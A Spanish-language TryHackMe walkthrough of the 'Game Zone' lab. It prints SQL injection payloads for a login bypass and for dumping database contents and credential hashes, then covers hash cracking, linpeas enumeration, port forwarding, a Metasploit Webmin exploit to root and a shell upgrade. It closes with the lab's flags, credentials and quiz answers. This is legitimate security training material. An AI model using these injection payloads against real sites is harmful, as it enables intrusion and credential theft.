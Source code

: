 # Máquina Game Zone

Dificultad --> Medio-Dificil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Game Zone**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Realizamos un escaneo de puertos con la herramienta Nmap para verificar los puertos abiertos


![image](https://github.com/user-attachments/assets/33ca4154-cca0-427d-9d77-4a52a79e26ed)


Ya obtenidos los puertos abiertos buscamos sus versiones y vulnerabilidades utilizando la herramienta Nmap con diferentes parámetros.


![image](https://github.com/user-attachments/assets/328f8dde-0a61-47a6-83d8-43cc161f7935)


Conertimos el archivo PC.xml a HTML para poder visualizarlo mejor.


![image](https://github.com/user-attachments/assets/74791144-36b1-4f1c-b372-5498d992b352)



![image](https://github.com/user-attachments/assets/d9b3bfc2-4b7f-4851-93da-486bfa457ec1)



Lo convertimos a formato HTML para poder visualizarlo mejor


![image](https://github.com/user-attachments/assets/18bd259c-0c83-4df7-beeb-87d81519e6e7)



### Resumen de la Información Obtenida

|IP          | Sistema OPerativo    | Puertos/Servicios              | 
|:---------: |:--------------------:| :-----------------------------:| 
| 10.10.1.29 | Ubuntu Linux 16.04.6 | 22 ssh 7.2p2 Ubuntu 4ubuntu2.7 |
|            |                      | 80 http Apache httpd 2.4.18    |


## 2. Análisis de Vulnerabilidades / Debilidades

Realizamos un Fuzzing


![image](https://github.com/user-attachments/assets/99acaa09-8ba0-4f9f-9078-308f77013e0f)

hacemos mysql injection en login 

    ' o 1=1 -- -

![image](https://github.com/user-attachments/assets/81597124-439e-4777-837e-222c80629bc6)



Logramos entrar


![image](https://github.com/user-attachments/assets/03ee549c-c53b-43f0-baff-e93f129387a0)


Aplicamos la siguiente consulta mysql para obtener el Hostname y su versión: 

       ' UNION SELECT NULL, @@HOSTNAME, @@VERSION#


![image](https://github.com/user-attachments/assets/f2d6ebf4-420e-478c-820a-5c58ffb8b25f)


Ahora aplicamos la siguiente consulta para encontrar el usuario y la base de datos:

    ' UNION SELECT NULL, user(), database()#


![image](https://github.com/user-attachments/assets/392a9b88-23ce-42bb-b603-4ce36a398382)


Ahora con la siguiente consulta vamos a enumerar las bases de datos disponibles 

    ' UNION SELECT NULL,NULL,SCHEMA_NAME FROM information_schema.SCHEMATA#


![image](https://github.com/user-attachments/assets/ecbeea66-15f8-4bb2-a17e-44867e5a2013)


Consultamos el esquema de la tabla db:

    ' UNION SELECT NULL,TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=’db’#


![image](https://github.com/user-attachments/assets/de7e8312-951b-45d2-80ad-c06e6060bfdf)

Realizamos una enumeración de username y las pwd de la tabla users:

    ' UNION SELECT 1, username, pwd FROM users #

![image](https://github.com/user-attachments/assets/654bf580-5066-4324-b515-7234031b9dde)


Guardamos el hash que conseguimos en un archivo de texto para luego decodificarlo con la herramienta de john the ripper


![image](https://github.com/user-attachments/assets/7e5fdf15-56ba-4b87-8d67-47f5f16da43f)


## 3. Explotación

Accedemos mediante ssh


![image](https://github.com/user-attachments/assets/6efb6497-f92d-491a-8160-e28d1c8cd716)

Obtenemos el contenido de user.txt 649ac17b1480ac13ef1e4fa579dac95c


![image](https://github.com/user-attachments/assets/b8ad5fd0-2a2d-494b-a58a-249ce0cb5ed9)


Colocamos nuestra máquina como servidor para poder descargar linpeas


![image](https://github.com/user-attachments/assets/d21621e6-47d9-4bde-bb63-c1e65fd84cdb)


Lo descargamos en la maquina destino, es recomendable situarnos en la ruta /dev/shm para hacer cualquier descarga en el equipo destino


![image](https://github.com/user-attachments/assets/e82b9d00-b925-4e5f-bd32-55d35e8b06b6)


Le damos permiso de ejecución y ejecutamos linpeas.sh


![image](https://github.com/user-attachments/assets/7db2e9e1-4dca-439f-981e-8ba0292bd455)

Nos detecta que tenemos el puerto 10000 abierto
![image](https://github.com/user-attachments/assets/395e5cc5-d348-4d43-a349-32dedafc01a1)



## 4. Escalación de privilegios

Ejecutamos un Port Forwarding creando un tunel del puerto 10000 de la máquina destino hacia nuestro puerto 10000


![image](https://github.com/user-attachments/assets/8eebc555-bf6a-406b-9611-45024178546c)

Luego de haber creado el túnel, abrimos en el navegador la siguiente dirección:

    http://localhost:10000/

![image](https://github.com/user-attachments/assets/ee1f29dd-1610-4dd7-8ae1-05813ae8555e)


Entramos con el usuario agent47 y la contraseña videogamer124

![image](https://github.com/user-attachments/assets/49b217b6-adf6-4b0f-b7cc-fb2f0083cbc6)


Abrimos el Meterpreter, buscamos la vulnerabilidad para webmin y vamos a utilizar la primera opción


![image](https://github.com/user-attachments/assets/7b2fd594-53ff-4aae-9bfc-7b29eb2921e8)


Show options


![image](https://github.com/user-attachments/assets/a4ece5bd-248d-468e-a6bd-8b6ec320e456)


Modificamos los diferentes parámetros para poder ejecutar el exploit


![image](https://github.com/user-attachments/assets/18ab38f2-4cd5-4beb-8a6b-ca7720cfaace)


Ejecutamos show payloads para ver las diferentes opciones que tenemos y en este caso vamos a utilizar la opción 5


![image](https://github.com/user-attachments/assets/7f698b83-80eb-4943-ae29-8ae36c7795f8)


Ejecutamos el comando:

     set payload 5 
                              
Y le damos exploit logrando acceder como root


![image](https://github.com/user-attachments/assets/624a73aa-1975-4c1d-948f-4d69d886e745)


Mejoramos la consola con el siguiente comando: 

    python -c 'import pty; pty.spawn("/bin/bash")’ 

Y encontramos el contenido del archivo de texto root.txt = a4b945830144bdd71908d12d902adeee


![image](https://github.com/user-attachments/assets/186327ec-97c4-401e-91de-f0c83bbb0710)



## 4.Banderas 🏁

|user.txt | 649ac17b1480ac13ef1e4fa579dac95c |
|:-------:|:--------------------------------:|
|root.txt | a4b945830144bdd71908d12d902adeee |


## 5.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

• What is the name of the large cartoon avatar holding a sniper on the forum?

Agent 47

• When you've logged in, what page do you get redirected to?

portal.php

• In the users table, what is the hashed password?

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

• What was the username associated with the hashed password?

agent47

• What was the other table name?

Post

• What is the de-hashed password?

videogamer124

• What is the user flag?

649ac17b1480ac13ef1e4fa579dac95c

• How many TCP sockets are running?

5

• What is the name of the exposed CMS?

Webmin

• What is the CMS version?

1.580

•What is the root flag?

a4b945830144bdd71908d12d902adeee
